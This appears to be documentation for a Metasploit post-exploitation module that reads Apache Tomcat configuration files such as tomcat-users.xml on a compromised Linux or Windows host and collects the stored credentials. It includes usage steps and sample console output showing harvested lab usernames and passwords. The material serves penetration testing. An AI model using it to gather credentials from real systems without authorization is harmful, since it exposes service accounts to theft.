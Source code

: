 ## Creating A Testing Environment

  For this module to work you need a linux or windows machine.

  * For linux you can run something like `apt-get install tomcat7` to get a working tomcat service.
  * For WIndows you can download tomcat from http://tomcat.apache.org/ and then install it as a service.

This module has been tested against:

  1. Xubuntu and Ubuntu Server 16.04 with tomcat 7, 8.
  2. Windows 10 with tomcat 6, 7.
  3. Windows XP with tomcat 5.5, 6, 7, 8

This module was not tested against, but may work against:

  1. Other versions of linux running tomcat v4-9
  2. Other version of windows running tomcat v4-9

## Verification Steps

  1. Start msfconsole
  2. Obatin a meterpreter session via whatever method
  3. Do: 'use post/multi/gather/tomcat_gather'
  4. Do: 'set session #'
  5. Do: 'run'

## Scenarios

### Xubuntu 16.04 with tomcat 7 and 8

#### Running without read permissions

    msf post(tomcat_gather) > set session 1
    session => 1
    msf post(tomcat_gather) > run

    [*] [2017.03.31-10:19:27] Unix OS detected
    [*] [2017.03.31-10:19:28] /etc/tomcat7/tomcat-users.xml found
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat7/tomcat-users.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat7/tomcat-users.xml you probably don't have permission to open the file or parsing failed.
    [*] [2017.03.31-10:19:28] /etc/tomcat8/tomcat-users.xml found
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat8/tomcat-users.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat8/tomcat-users.xml you probably don't have permission to open the file or parsing failed.
    [*] [2017.03.31-10:19:28] Attempting to extract Tomcat listening ports from /etc/tomcat7/server.xml
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat7/server.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat7/server.xml you probably don't have permission to open the file or parsing failed
    [*] [2017.03.31-10:19:28] Attempting to extract Tomcat listening ports from /etc/tomcat8/server.xml
    [-] [2017.03.31-10:19:28] Failed to open file: /etc/tomcat8/server.xml: core_channel_open: Operation failed: 1
    [*] [2017.03.31-10:19:28] Cannot open /etc/tomcat8/server.xml you probably don't have permission to open the file or parsing failed
    [*] [2017.03.31-10:19:28] No user credentials have been found
    [*] Post module execution completed

#### Running with read permissions

    msf post(tomcat_gather) > set session 2
    session => 2
    msf post(tomcat_gather) > run

    [*] [2017.03.31-10:33:14] Unix OS detected
    [*] [2017.03.31-10:33:15] /etc/tomcat7/tomcat-users.xml found
    [*] [2017.03.31-10:33:15] /etc/tomcat8/tomcat-users.xml found
    [*] [2017.03.31-10:33:15] Attempting to extract Tomcat listening ports from /etc/tomcat7/server.xml
    [*] [2017.03.31-10:33:15] Attempting to extract Tomcat listening ports from /etc/tomcat8/server.xml
    [+] [2017.03.31-10:33:16] Username and password found in /etc/tomcat7/tomcat-users.xml - tomcat2:s3cret
    [+] [2017.03.31-10:33:16] Username and password found in /etc/tomcat8/tomcat-users.xml - tomcat2:s3cret
    [*] Post module execution completed
        
    msf post(tomcat_gather) > creds
    Credentials
    ===========

    host        origin      service            public   private  realm  private_type
    ----        ------      -------            ------   -------  -----  ------------
    10.10.10.6  10.10.10.6  8080/tcp (Tomcat)  tomcat2  s3cret          Password


### Windows 10 with tomcat 7

#### Running with read permissions

    msf post(tomcat_gather) > run

    [*] [2017.03.31-10:43:18] Windows OS detected, enumerating services
    [+] [2017.03.31-10:43:18] Tomcat service found
    [*] [2017.03.31-10:43:18] C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml found!
    [+] [2017.03.31-10:43:19] Username and password found in C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml - tomcat:tomcat
    [+] [2017.03.31-10:43:19] Username and password found in C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml - both:<must-be-changed>
    [+] [2017.03.31-10:43:19] Username and password found in C:\Users\XXX\Desktop\apache-tomcat-7.0.75\conf\tomcat-users.xml - role1:<must-be-changed>
    [*] Post module execution completed

    msf post(tomcat_gather) > creds
    Credentials
    ===========

    host        origin      service            public   private            realm  private_type
    ----        ------      -------            ------   -------            -----  ------------
    10.10.10.6  10.10.10.6  8080/tcp (Tomcat)  tomcat2  s3cret                    Password
    10.10.10.7  10.10.10.7  8080/tcp (Tomcat)  tomcat   tomcat                    Password
    10.10.10.7  10.10.10.7  8080/tcp (Tomcat)  both     <must-be-changed>         Password
    10.10.10.7  10.10.10.7  8080/tcp (Tomcat)  role1    <must-be-changed>         Password